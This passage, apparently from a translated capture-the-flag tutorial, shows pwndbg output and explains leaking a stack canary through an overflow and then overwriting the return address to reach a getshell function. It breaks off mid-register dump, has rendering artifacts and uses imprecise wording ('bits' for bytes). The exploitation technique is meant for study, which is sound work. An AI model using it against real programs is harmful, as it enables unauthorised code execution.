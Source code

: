 ```
07:0038│          0x7ffd97aa0448 —▸ 0x557c8443aa6a ◂— mov    eax, 0

Breakpoint *(0x557c8443a000+0xA08)

pwndbg> canary

$1 = 0

canary : 0xb3012605fc402a00

pwndbg&gt;
```



Canary In the rbp - 0x8 position, it can be seen that the lower bit of the canary has been overwritten to 0x61, so as long as the 7 bits after &#39;a&#39; * (0x30 - 0x8 + 1) are received, plus the lowest bit &#39;\ 0&#39;, we will recover the canary of the program.


#### Override return address
With canary, you can overwrite the return address with the second stack overflow, and control the return address to the getshell function. Let&#39;s first look at the return address when there is no overflow.


`` `asm
0x000055dc43694a1e in ?? ()

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA

──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────

 RAX  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')

 RBX  0x0

 RCX  0x7f206c6696f0 (__write_nocancel+7) ◂— cmp    rax, -0xfff

 RDX  0x60

 RDI  0x0

 RSI  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')

 R8   0x7f206cb22700 ◂— 0x7f206cb22700

 R9   0x3e

 R10  0x73

 R11  0x246

 R12  0x55dc43694830 ◂— xor    ebp, ebp

 R13  0x7fff9aa3b050 ◂— 0x1

 R14  0x0
